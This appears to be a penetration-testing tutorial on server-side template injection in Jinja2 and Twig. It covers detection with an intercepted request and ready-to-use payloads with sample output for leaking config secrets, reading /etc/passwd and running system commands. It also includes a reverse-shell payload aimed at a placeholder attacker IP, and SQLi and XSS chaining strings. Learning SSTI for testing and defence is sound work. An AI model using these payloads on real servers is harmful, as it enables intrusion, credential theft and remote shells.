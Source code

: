 # 👀 SSTI

Server-Side Template Injection (SSTI) is a critical vulnerability where an attacker can inject template code into a web application’s template engine, causing it to be executed server-side. This can lead to severe security issues, including **information disclosure**, **remote code execution (RCE)**, and **local file inclusion (LFI)**.

***

### **1. Context and Overview**

#### What Is SSTI?

A **template engine** is responsible for rendering dynamic content by merging templates (pre-defined HTML) with user input or data from a database. Common examples include **Jinja2** for Python (used in Flask/Django), **Twig** for PHP, and **Velocity** for Java-based applications. These engines allow dynamic content to be generated based on user inputs or system data.

**SSTI** occurs when the application **fails to sanitize** user input properly, allowing an attacker to inject malicious template syntax. This can result in various attacks, such as reading sensitive files, executing arbitrary code, or even compromising the entire server.

***

### **2. Identifying SSTI Vulnerabilities**

Identifying SSTI vulnerabilities is similar to detecting **SQL injection** or **Cross-Site Scripting (XSS)**. The goal is to inject special characters or expressions that the template engine will try to evaluate.

#### **Common Injection Syntax for Template Engines:**

* **Jinja2 (Python)**: `{{ ... }}`
* **Twig (PHP)**: `{{ ... }}`
* **Velocity (Java)**: `${ ... }`

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><a href="https://portswigger.net/web-security/server-side-template-injection"><strong>https://portswigger.net/web-security/server-side-template-injection</strong></a></p></figcaption></figure>

#### **Testing for SSTI:**

Look for places where user input is incorporated into templates. The most common input fields to test include:

* **Form Inputs** (e.g., search bars, login forms)
* **URL Parameters** (e.g., `?name={{ user_name }}`)
* **HTTP Headers** (e.g., custom headers, cookies)
* **File Uploads** (e.g., image metadata or document-based templates)

#### **Burp Suite Example:**

Let’s start with an example using **Burp Suite** to intercept and manipulate HTTP requests.

**Request:**

Imagine we’re testing a login form that takes a `username` parameter and outputs a personalized greeting:

```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

username=vautia&password=testpassword
```

**Injection:**

Inject the following SSTI payload in the `username` parameter to test for template processing:

```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

username={{7*7}}&password=testpassword
```

**Response:**

After sending the request, the server responds with the following:

```html
Hello 49! Welcome to the site.
```

This reveals that the application is processing the input as a template expression, indicating an **SSTI vulnerability**.

***

### **3. Exploiting SSTI: Common Scenarios**

Once SSTI is identified, attackers can leverage various techniques to exploit the vulnerability.

#### **Scenario 1: Information Disclosure**

An attacker can use SSTI to expose internal application configurations or secrets, such as database credentials, environment variables, or API keys.

**Example Payload (Jinja2):**

```plaintext
{{ config.items() }}
```

**Response:**

```plaintext
[('DEBUG', True), ('SECRET_KEY', 'randomkey1234'), ('SQLALCHEMY_DATABASE_URI', 'mysql://user:password@localhost/db')]
```

This reveals sensitive configuration data.

***

#### **Scenario 2: Local File Inclusion (LFI)**

SSTI can be leveraged to read sensitive files, such as `/etc/passwd` on Linux systems or application logs, if the template engine has access to the filesystem.

**Example Payload (Jinja2):**

```plaintext
{{ self.__init__.__globals__.__builtins__.open('/etc/passwd').read() }}
```

**Response:**

```plaintext
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

This exposes the contents of `/etc/passwd`, potentially revealing user accounts and system information.

**Example Payload (Twig):**

```plaintext
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

**Response:**

```plaintext
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

***

#### **Scenario 3: Remote Code Execution (RCE)**

The most severe impact of SSTI is remote code execution. This allows attackers to run arbitrary commands on the server, potentially compromising the entire system.

**Example Payload (Jinja2):**

Executing the `id` command to get the user context:

```plaintext
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

**Response:**

```plaintext
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This confirms that the attacker can execute commands on the server.

**Example Payload (Twig):**

In **Twig**, you can use the `filter('system')` function to execute arbitrary system commands:

```plaintext
{{ ['id'] | filter('system') }}
```

**Response:**

```plaintext
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Advanced Remote Code Execution (RCE):**

Attackers can escalate RCE to more dangerous payloads, such as reverse shells or data exfiltration.

**Reverse Shell Example (Jinja2):**

```plaintext
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -i >& /dev/tcp/attacker_ip/4444 0>&1').read() }}
```

This command attempts to open a reverse shell back to the attacker's machine at IP `attacker_ip` on port `4444`.

***

### **4. Advanced Payloads and Complex Exploitation**

#### **Chaining SSTI with Other Vulnerabilities**

In some cases, SSTI can be chained with other vulnerabilities, like **SQL Injection (SQLi)** or **Command Injection**, to achieve greater control over the application.

**SSTI + SQL Injection (SQLi):**

Imagine an application that uses template injection to build SQL queries. If the application is also vulnerable to **SQL injection**, an attacker can combine both vulnerabilities to extract sensitive data.

```plaintext
{{ config['SECRET_KEY'] }}' OR 1=1 --
```

This could reveal the secret key while bypassing login authentication by exploiting the SQLi part.

**SSTI + XSS:**

An attacker can inject **Cross-Site Scripting (XSS)** payloads into the template, which can then be executed in other users' browsers.

```plaintext
{{ "<script>alert('XSS')</script>" }}
```

This injects malicious JavaScript into the page, which gets executed when another user visits the site.
